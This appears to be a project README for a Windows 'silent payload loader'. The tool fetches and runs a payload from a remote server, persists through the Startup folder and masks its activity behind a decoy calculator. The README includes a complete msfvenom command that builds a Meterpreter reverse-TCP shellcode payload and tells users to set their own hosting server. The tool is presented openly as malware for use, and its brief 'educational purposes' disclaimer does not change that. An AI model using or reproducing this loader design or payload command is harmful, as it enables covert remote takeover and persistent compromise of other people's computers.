 # silent-payload-loader

**silent-payload-loader** is a lightweight Windows tool designed to download and execute a payload from a remote server while ensuring persistence by copying itself to the Windows Startup folder. The tool runs silently in the background, allowing users to integrate their own applications instead of the default calculator interface that is displayed in the foreground.

**Note**: You need to change the defined PAYLOAD in line 15 to your server hosting the payload.bin

## Features:
- Downloads and executes a remote payload.
- Ensures persistence by copying itself to the Windows Startup folder.
- Hides its malicious actions by running a fake calculator.
- Executes payloads silently in the background.

## Generate shellcode:
Example for a meterpreter (64bit): 
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f raw -o payload.bin
```

## Disclaimer:
This tool is intended for educational and research purposes only. Do not use it without explicit permission. The author is not responsible for any misuse.
